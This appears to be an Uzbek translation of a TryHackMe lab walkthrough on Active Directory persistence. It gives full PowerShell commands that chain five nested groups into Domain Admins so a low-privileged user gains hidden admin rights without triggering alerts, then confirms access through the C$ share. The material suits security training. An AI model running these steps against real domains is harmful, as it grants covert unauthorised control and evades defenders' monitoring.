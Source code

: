 
### SID tarixlarini o‘zgartirmasdan AD guruhlariga qo‘shilish orqali barqarorlik (persistensiya)

Agar biz SID tarixlari bilan o'ynashni xohlamasak, o'zimizni to'g'ridan-to'g'ri Active Directory (AD) guruhlariga qo'shish orqali ham barqarorlikka erishishimiz mumkin. SID history ajoyib barqarorlik usuli bo‘lishiga qaramay, credential rotation (parollarni almashtirish) va tozalanish jarayoni bizning mavjudligimizni yo‘q qilishi mumkin. Ba'zi hollarda esa AD guruhlariga hujum qilish orqali barqarorlikni saqlab qolish yanada foydaliroq bo'lishi mumkin.

---

### Guruh a’zoligi orqali barqarorlik

1-topshiriqda aytib o’tilganidek, eng ko‘p huquqlarga ega hisob yoki guruh barqarorlik uchun har doim ham eng yaxshi variant emas. Aynan yuqori imtiyozli guruhlar faol nazorat ostida bo'ladi. Domain Admins yoki Enterprise Admins kabi **himoyalangan guruhlar**ga o'zgartirish kiritilishi qo'shimcha xavfsizlik nazorati ostida bo'ladi.

Shuning uchun barqarorlikni guruh orqali saqlamoqchi bo‘lsak, ba’zan biroz ijodkorlik talab qilinadi. Quyidagi guruhlar barqarorlik uchun foydali bo'lishi mumkin:

* **IT Support** guruhi — bu guruh a’zolari foydalanuvchilarning parollarini o‘zgartira olish kabi huquqlarga ega bo‘lishi mumkin. Bu huquqlar yordamida boshqa ishchi stansiyalarni egallash mumkin.
* **Mahalliy administrator huquqini beruvchi guruhlar** ko‘pincha himoyalangan guruhlar darajasida kuzatilmaydi. Bu guruhlar orqali domenni yana boshqarib olish mumkin.
* To‘g‘ridan-to‘g‘ri emas, **bilvosita huquqlar**ga ega guruhlar ham foydali. Masalan, Group Policy Objects (GPO) egasi bo‘lgan guruhlar.

---

### Ichma-ich guruhlar (Nested Groups)

Ko‘pgina tashkilotlarda guruhlar ichma-ich shaklda tashkil etiladi. Bu **rekursiv guruhlar** deb ataladi. Masalan, IT Support guruhida quyidagi kichik guruhlar bo‘lishi mumkin: **Helpdesk**, **Access Card Managers**, **Network Managers**.

Bu kichik guruhlar IT Support guruhiga a’zo qilinadi. Natijada ular IT Support’ga tegishli huquqlarga ega bo'lishadi, lekin o'zlariga xos huquqlari ham bo'ladi.

Bu struktura qulay bo‘lsa-da, **real ruxsatlar**ni ko‘rish va tahlil qilishni qiyinlashtiradi. Masalan, AD’ni so‘roqlaganda IT Support’da atigi 3 ta a’zo bor deb javob qaytadi. Lekin bu uchta kichik guruh. Har bir guruhni alohida tahlil qilish kerak. Kichik guruhlar o‘z navbatida boshqa kichik guruhlarga ham a’zo bo‘lishi mumkin. Natijada: **“Qancha darajagacha tahlil qilish kerak?”** degan savol tug‘iladi.

Bu monitoring muammolarini ham keltirib chiqaradi. Masalan, Domain Admins guruhiga yangi a’zo qo‘shilganida signal beradigan tizim mavjud bo‘lishi mumkin. Lekin **shu guruhga a’zo bo‘lgan kichik guruhga** a’zo qo‘shilsa, hech qanday signal berilmaydi.

---

### Ichma-ich guruhlardan foydalanib barqarorlikka erishish

Biz bu texnikani sinab ko‘rishimiz mumkin. **Avvalo**, “People -> IT” OU (Organisational Unit) ga yangi guruh yarating:

```powershell
New-ADGroup -Path "OU=IT,OU=People,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "<username> Net Group 1" -SamAccountName "<username>_nestgroup1" -DisplayName "<username> Nest Group 1" -GroupScope Global -GroupCategory Security
```

Endi **“People -> Sales”** OU ichida yangi guruh yarating va yuqoridagi guruhni unga a’zo qiling:

```powershell
New-ADGroup -Path "OU=SALES,OU=People,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "<username> Net Group 2" -SamAccountName "<username>_nestgroup2" -DisplayName "<username> Nest Group 2" -GroupScope Global -GroupCategory Security 
Add-ADGroupMember -Identity "<username>_nestgroup2" -Members "<username>_nestgroup1"
```

Bu amallarni davom ettiring (har safar avvalgi guruhni yangi guruhga a’zo qilib qo‘shing):

```powershell
New-ADGroup -Path "OU=CONSULTING,OU=PEOPLE,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "<username> Net Group 3" -SamAccountName "<username>_nestgroup3" -DisplayName "<username> Nest Group 3" -GroupScope Global -GroupCategory Security
Add-ADGroupMember -Identity "<username>_nestgroup3" -Members "<username>_nestgroup2"

New-ADGroup -Path "OU=MARKETING,OU=PEOPLE,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "<username> Net Group 4" -SamAccountName "<username>_nestgroup4" -DisplayName "<username> Nest Group 4" -GroupScope Global -GroupCategory Security
Add-ADGroupMember -Identity "<username>_nestgroup4" -Members "<username>_nestgroup3"

New-ADGroup -Path "OU=IT,OU=PEOPLE,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "<username> Net Group 5" -SamAccountName "<username>_nestgroup5" -DisplayName "<username> Nest Group 5" -GroupScope Global -GroupCategory Security
Add-ADGroupMember -Identity "<username>_nestgroup5" -Members "<username>_nestgroup4"
```

**Oxirgi guruhni** Domain Admins guruhiga qo‘shamiz:

```powershell
Add-ADGroupMember -Identity "Domain Admins" -Members "<username>_nestgroup5"
```

Endi **oddiy foydalanuvchi hisobini** birinchi guruhga qo‘shamiz:

```powershell
Add-ADGroupMember -Identity "<username>_nestgroup1" -Members "<low privileged username>"
```

---

### Tekshirish

SSH orqali `THMWRK1` mashinasida quyidagicha tekshirishingiz mumkin:

```powershell
dir \\thmdc.za.tryhackme.loc\c$\
```

Agar `C:\` diskdagi fayllar ro‘yxatini ko‘rsangiz, demak oddiy foydalanuvchingizda endi administratorlik huquqlari bor.

Domain Admins ichidagi a’zolarni ko‘rish orqali ham ishonch hosil qilamiz:

```powershell
Get-ADGroupMember -Identity "Domain Admins"
```

Bu yerda faqatgina **1 ta yangi a’zo** ko‘rsatiladi — bu biz yaratgan `Net Group 5`. Qolgan guruhlar esa unga ichma-ich tarzda a’zo bo‘lgan.

---

### Faqat “Blue Team”ni emas, AD tuzilmasining o‘zini ham qiynaymiz

Agar bu haqiqiy tashkilot bo‘lsa, biz yangi guruhlar yaratmasdik. Aksincha, mavjud guruhlar ichidan foydalanardik. Ammo bu amaliyot **real red team testlarida tavsiya etilmaydi**, chunki bu tashkilotning Active Directory strukturasi buzilishiga olib keladi. Bu darajada o‘zgarish qilinsa, **hatto sizni chiqarib yuborishsa ham**, tashkilot AD’ni **qaytadan yaratishga** majbur bo‘ladi — bu esa ulkan zararga olib keladi.
